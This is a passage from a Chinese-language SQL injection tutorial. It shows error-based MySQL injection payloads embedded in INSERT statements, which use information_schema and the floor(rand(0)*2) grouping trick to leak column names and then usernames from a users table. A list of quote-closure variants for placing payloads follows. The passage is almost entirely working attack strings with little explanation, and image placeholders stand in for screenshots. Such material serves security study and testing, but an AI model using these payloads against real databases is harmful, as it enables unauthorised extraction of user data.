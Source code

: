 ![enter image description here](img/img24_u7_png.jpg)

获取 users 表的列名：

```
INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(column_name as char),0x27,0x7e) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 0,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo'); 
```

![enter image description here](img/img25_u6_png.jpg)

获取 users 表的数据：

```
INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT concat(0x7e,0x27,cast(users.username as char),0x27,0x7e) FROM `newdb`.users LIMIT 0,1) ) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo'); 
```

![enter image description here](img/img26_u6_png.jpg)

## 0x07 更多闭合变种

* * *

```
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'* (payload) *'
' or (payload) and '
" – (payload) – " 
```

## 0x08 引用

* * *
